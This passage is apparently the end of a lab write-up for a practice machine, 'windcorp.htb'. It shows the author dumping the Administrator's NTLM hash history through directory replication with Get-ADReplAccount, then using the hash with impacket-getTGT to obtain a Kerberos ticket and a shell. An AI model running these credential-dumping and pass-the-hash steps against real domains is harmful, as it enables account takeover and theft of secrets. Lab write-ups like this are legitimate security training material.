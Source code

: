 It appears this user can use `Get-ADReplAccount` to retrieve NTLM hashes for users. I found some cheatsheetys for this command online as well:

{% embed url="https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-ADReplAccount.md" %}

Using this, we can retrieve the hash of the administrator.

```
PS C:\> Get-ADReplAccount -SamAccountName "Administrator" -Server "windcorp.htb"
<TRUNCATED>
SystemAclAutoInherited, DiscretionaryAclProtected, SelfRelative
Owner: S-1-5-21-3783586571-2109290616-3725730865-512
Secrets
  NTHash: <REDACTED>
  LMHash: 
  NTHashHistory: 
    Hash 01: <REDACTED>
    Hash 02: <REDACTED>
    Hash 03: <REDACTED>
  LMHashHistory: 
    Hash 01: <REDACTED>
    Hash 02: <REDACTED>
  SupplementalCredentials:
    ClearText: 
    NTLMStrongHash: <REDACTED>
<TRUNCATED>
```

### Kerberos Ticket --> Shell

Using this NTLM hash, we have to request for a Kerberos ticket because NTLM hashes have been disabled.&#x20;

```
$ impacket-getTGT -hashes b3ff8d7532eef396a5347ed33933030f:b3ff8d7532eef396a5347ed33933030f windcorp.htb/administrator@windcorp.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in administrator@windcorp.htb.ccache

$ export KRB5CCNAME=administrator@windcorp.htb.ccache
```

Then, we can use this ticket to get a shell using this ticket:

<figure><img src="../../../.gitbook/assets/image (3) (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Rooted! Although hard, this machine had steps that were simple if the enumeration was done properly. Great machine!&#x20;
